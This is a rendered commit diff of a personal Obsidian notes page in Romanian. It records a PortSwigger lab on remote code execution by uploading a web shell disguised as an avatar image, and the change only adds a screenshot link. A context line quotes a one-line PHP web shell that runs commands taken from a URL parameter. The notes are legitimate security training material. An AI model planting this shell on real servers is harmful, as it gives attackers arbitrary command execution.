

Before and after one commit to Paius-George/obsidian, a Markdown page: Portswigger/File Upload Vulnerabilities/Remote code execution via web shell upload.md, the part around the change. Rendered like a GitHub page; pictures changed too: attachments/Pasted image 20261019133331.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
vault backup: 2026-10-19 13:34:24

```diff
--- a/Portswigger/File Upload Vulnerabilities/Remote code execution via web shell upload.md
+++ b/Portswigger/File Upload Vulnerabilities/Remote code execution via web shell upload.md
@@ -13,3 +13,4 @@ Astfel, acum dintr-un avatar de tip imagine avem un cod php.
 Am folosit `<?php echo system($_GET['command']); ?>`
 
 ![](../../attachments/Pasted%20image%2020261019133303.png)
+![](../../attachments/Pasted%20image%2020261019133331.png)
```
